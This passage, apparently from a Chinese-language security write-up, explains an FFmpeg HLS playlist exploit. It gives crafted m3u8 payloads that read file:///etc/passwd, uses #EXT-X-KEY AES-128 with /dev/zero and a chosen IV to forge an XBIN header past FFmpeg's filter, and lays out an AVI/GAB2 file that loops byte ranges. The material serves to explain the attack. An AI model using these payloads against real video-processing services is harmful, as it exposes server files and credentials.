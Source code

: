 但FFmpeg检查了body中的非法字符串，所以无法使用data:对XBIN格式声明：



```
#EXTM3U

#EXT-X-MEDIA-SEQUENCE:1

#EXTINF:1.0,

data:&lt;format-header&gt;

#EXTINF:1.0,

file:///etc/passwd

#EXTINF:1.0,

data:&lt;format-footer&gt;

#EXT-X-ENDLIST
```

但是m3u8支持AES128的CBC模式加密，可以在****#EXT-X-KEY****中进行设置，所以可以很简单加密m3u8的内容：



```
…

#EXTINF:1,

#EXT-X-KEY:METHOD=AES-128, URI=/dev/zero, IV=&lt;VAL&gt;

#EXT-X-BYTERANGE: 16

/dev/zero

…

= AES^-1 CONST(0x00…00) ⊕&lt;VAL&gt; = &lt;FMT HEADER&gt;
```

由于m3u8单次访问目标文件获取到的内容不完整，为了获得完整的文件内容，还需要控制****#EXT-X-BYTERANGE****设置偏移量，然后重复这一部分。

最终，我们得到的文件应该是这样的：

```
[AVI header]

[GAB2 header]

[m3u8 header]

`{`loop`}`

#EXT-X-KEY:METHOD=AES-128, URI=/dev/zero, IV=&lt;VAL&gt;     声明m3u8的AES加密，将XBIN部分加密

[XBIN header]     被加密

目标文件

[XBIN footer]    被加密

`{`loop`}`

[m3u8 footer]

```